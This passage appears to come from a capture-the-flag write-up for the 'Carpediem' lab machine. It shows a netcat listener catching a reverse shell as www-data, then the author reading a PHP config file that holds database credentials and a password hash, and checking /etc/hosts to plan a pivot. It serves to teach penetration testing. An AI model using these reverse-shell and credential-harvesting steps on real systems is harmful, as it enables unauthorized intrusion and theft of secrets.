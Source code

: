 ```


------WebKitFormBoundaryuvzYJhBo2FEjbqaP--
```

The response:

```
nc -lvp 1234
Listening on 0.0.0.0 1234
Connection received on carpediem.htb 44236
Linux 3c371615b7aa 5.4.0-97-generic #110-Ubuntu SMP Thu Jan 13 18:22:13 UTC 2022 x86_64 GNU/Linux
 22:13:03 up 1 day, 17:22,  0 users,  load average: 0.07, 0.06, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

I was in!

### Securing the foothold

At the /var/www/html/portal directory I found an interesting file called initialize.php.

```
$ cat /var/www/html/portal/initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','http://portal.carpediem.htb/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"mysql");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"portaldb");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"J5tnqsXpyzkK4XNt");
if(!defined('DB_NAME')) define('DB_NAME',"portal");
?>
$ 
```

This is interesting. We have a DB Username and a DB Password as *portaldb:J5tnqsXpyzkK4XNt*.

One other thing that is really interesting is the result of catting /etc/hosts:

```
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      mysql a5004fe641ca
172.17.0.6      3c371615b7aa
```

Perhaps the credentials we just stole (they didn't work in ssh) might work here? If we can figure out how to pivot access of course.
